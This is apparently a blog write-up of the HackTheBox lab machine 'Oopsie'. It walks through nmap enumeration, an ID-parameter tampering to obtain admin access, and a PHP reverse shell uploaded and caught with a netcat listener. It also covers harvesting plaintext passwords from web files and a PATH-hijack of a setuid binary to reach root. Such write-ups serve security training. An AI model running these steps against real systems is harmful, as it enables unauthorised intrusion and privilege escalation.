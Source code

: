 ```yaml
---
title: Starting Point | Oopsie
author: Zeropio
date: 2022-03-06
categories: [HackTheBox, StartingPoint]
tags: [htb]
permalink: /htb/starting-point/oopsie
---
```



# Enumeration

The nmap will show us:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
```

If we search the ip in the Firefox we can access to a webpage:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_3.jpg" weight="100%" />

Now we can crawl the page with **ZAP**, we will find a login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_4.jpg" weight="100%" />

---

# Foothold

Now we have access to the login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_6.jpg" weight="100%" />

We can see we need super admin privilages to get access to the super admin account:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_7.jpg" weight="100%" />

We can see the **id=2**.:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_8.jpg" weight="100%" />

If we change to 1:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_9.jpg" weight="100%" />

Now we can use those credentials to change the cookies:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_10.jpg" weight="100%" />

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
```console
> gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
```

We will open a netcat and execute the reverse shell through the browser:
```console
> sudo nc -lvvp 1234
```

Now we have access to the system and to the user flag:
```console
> cat /home/robert/user.txt
```

We can import a python module to get a better shell:
```console
> python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

# Privilege Escalation

Inside we can search in the Apache server and find the password:
```console
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
```

In the **db.php** file we can get another passwords:
```console
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
```

We can now use that password to access robert user:
```console
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
```

With the **id** command we can see that Robert is in the same group as bugtracker.
```console
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

We can now search for the bugtracker group:
```console
robert@oopsie:/$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

We can see that **bugtracker** is using cat. If we create a file name **cat** inside **/tmp**, replace the content by **/bin/sh** and change the PATH to **/tmp** and execute bugtracker, we get a shell with root.

##### I need to remove the file cat after getting access to root, so I can make a cat to the flags.
